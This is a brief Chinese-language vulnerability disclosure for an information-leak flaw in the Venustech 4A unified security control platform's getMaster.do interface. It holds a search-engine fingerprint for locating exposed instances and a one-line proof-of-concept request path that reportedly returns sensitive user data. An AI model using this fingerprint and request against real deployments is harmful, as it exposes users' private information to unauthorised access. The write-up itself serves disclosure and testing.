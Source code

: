 # 启明星辰 4A统一安全管控平台 getMaster.do 信息泄漏漏洞

## 漏洞描述

启明星辰 4A统一安全管控平台 getMaster.do 接口存在信息泄漏漏洞，通过发送特定请求包可以获取用户敏感信息

## 漏洞影响

启明星辰 4A统一安全管控平台

## 网络测绘

web.body="cas/css/ace-part2.min.css"

## 漏洞复现

登陆页面

![image-20230828144032254](images/image-20230828144032254.png)

验证POC

```
/accountApi/getMaster.do
```

![image-20230828144049975](images/image-20230828144049975.png)